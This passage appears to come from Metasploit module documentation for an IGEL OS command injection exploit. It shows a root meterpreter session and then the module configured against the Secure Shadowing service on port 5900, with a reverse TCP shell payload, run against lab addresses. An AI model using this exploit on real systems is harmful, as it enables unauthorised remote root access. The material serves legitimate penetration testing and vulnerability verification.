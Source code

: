 ```
meterpreter > getuid
Server username: root @ ITC000C29EB2C06 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : ITC000C29EB2C06.LOCALDOMAIN
OS           : IGEL V11 (Linux 5.4.48)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```

### IGEL OS 11.04.130

Targeting the Secure Shadowing service (5900/tcp):

```
msf exploit(linux/misc/igel_command_injection) > set target 1
target => 1
msf exploit(linux/misc/igel_command_injection) > options

Module options (exploit/linux/misc/igel_command_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   192.168.37.133   yes       The target host(s), range CIDR identifier, or hosts file with synt
                                       ax 'file:<path>'
   RPORT    5900             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                       address on the local machine or 0.0.0.0 to listen on all addresses
                                       .
   SRVPORT  8080             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.37.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Secure Shadow Service


msf exploit(linux/misc/igel_command_injection) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] 192.168.37.133:5900 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.37.133:5900 - IGEL OS Version: 11.04.130.01
[+] 192.168.37.133:5900 - The target appears to be vulnerable.
```